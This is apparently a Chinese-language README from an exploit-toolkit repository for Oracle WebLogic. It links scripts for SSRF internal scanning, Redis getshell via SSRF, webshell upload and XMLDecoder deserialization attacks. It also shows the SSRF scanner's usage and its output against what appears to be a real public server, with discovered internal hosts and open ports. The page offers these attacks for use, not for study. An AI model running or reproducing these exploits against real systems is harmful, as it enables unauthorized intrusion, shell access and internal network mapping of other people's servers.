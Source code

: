 # About Oracle Weblogic
WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

# Vulnerability list
[**cve-2014-4210_ssrf_scan.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_scan.py) Weblogic ssrf扫描内网端口利用脚本 [[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2014-4210_ssrf_redis_shell.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_redis_shell.py) Weblogic ssrf漏洞内网redis未授权getshell脚本[[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2017-3506_poc.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_poc.py) Weblogic wls-wsat远程命令执行漏洞检测脚本[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-3506_webshell.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_webshell.jar) Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-10271_poc.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-10271_poc.jar) Weblogic < 10.3.6 wls-wsat XMLDecoder反序列化漏洞[[使用]](https://freeerror.org/d/460)

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/new/master/weblogic#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE：脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP：脚本利用示例，以及执行效果

## cve-2014-4210_ Weblogic SSRF 服务端请求伪造漏洞
VER：
```
Weblogic 10.0.2
Weblogic 10.3.6
```
USE：
```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py 
+----------------------------------------------------------------------+
+ USE: python <filename> <target_ip:port> <scan_address> <process>     +
+ EXP: python cve-2014-4210_ssrf_scan.py 1.1.1.1:7001 192.168.1.0 20   +
+ VER: 10.0.2,10.3.6                                                   +
+----------------------------------------------------------------------+
```
EXP：
```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py  59.110.214.109:7001 192.168.112.0 30
192.168.112
[*]+------------------------+
[*]+  Scanning ip and port  +
[*]+------------------------+
[+] 192.168.112.1:22
[+] 192.168.112.2:80
[+] 192.168.112.3:7001
[+] 192.168.112.1:7001
[+] 192.168.112.2:6379
[*]+------------------------+
[*]+     Scan completed     +
[*]+------------------------+
```

